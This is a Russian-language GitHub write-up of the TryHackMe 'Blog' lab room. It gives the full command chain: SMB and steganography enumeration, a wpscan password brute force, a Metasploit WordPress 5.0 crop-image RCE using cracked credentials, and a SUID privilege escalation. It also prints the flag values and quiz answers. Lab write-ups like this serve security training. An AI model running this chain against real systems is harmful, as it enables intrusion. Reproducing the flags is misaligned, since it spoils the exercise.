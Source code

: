 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Blog](https://tryhackme.com/r/room/blog) 

Всего 2 задания:
## Задание 1
Билли Джоэл создал блог на своем домашнем компьютере и начал над ним работать. Это будет так здорово!

Перечислите этот ящик и найдите 2 флага, которые в нем спрятаны! У Билли на ноутбуке происходят какие-то странные 
вещи. Сможете ли вы маневрировать и получить то, что вам нужно? Или вы упадете в кроличью нору...

Чтобы блог работал с AWS, вам необходимо добавить MACHINE_IP blog.thm в файл `/etc/hosts`.

Спасибо Sq00ky за идею root privesc ;)

### Ответьте на вопросы ниже
корень.txt
```commandline
nmap -sC -sV <IP>
smbclient -L //<IP>
smbclient -L //<IP>/BillySMB
get Alice-White-Rabbit.jpg
get tswift.mp4 
get check-this.png
exit
steghide extract -sf Alice-White-Rabbit.jpg
cat rabbit_hole.txt
zbarimg -q --raw check-this.png

vim /etc/hosts
blog.thm 10.10.10.32

wpscan --url http://blog.thm --enumerate u
wpscan -U users.txt -P /usr/share/wordlists/rockyou.txt --url http://blog.thm
# kwheel / cutiepie1 
searchsploit wordpress 5.0.0

msfconsole -q
use exploit/multi/http/wp_crop_rce
show options
set rhost blog.thm
set username kwheel
set password cutiepie1
exploit
shell
SHELL=/bin/bash script -q /dev/null
find / -type f -user root -perm -u=s 2>/dev/null
file /usr/sbin/checker
ltrace /usr/sbin/checker
export admin=1
```
```commandline
9a0b2b618bef9bfa7ac28c1353d9f318
```
пользователь.txt
```commandline
find / -type f -name user.txt 2>/dev/null
cat /media/usb/user.txt
```
```commandline
c8421899aae571f7af486492b71a8ab7
```
Где был найден user.txt?
```commandline
/media/usb
```
Какую CMS использовал Билли?
```commandline
Wordpress
```
Какая версия вышеуказанной CMS использовалась?
```commandline
5.0
```

## Задание 2
Ответьте на вопросы ниже
Поздравляю!
```commandline
Ответ не нужен
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)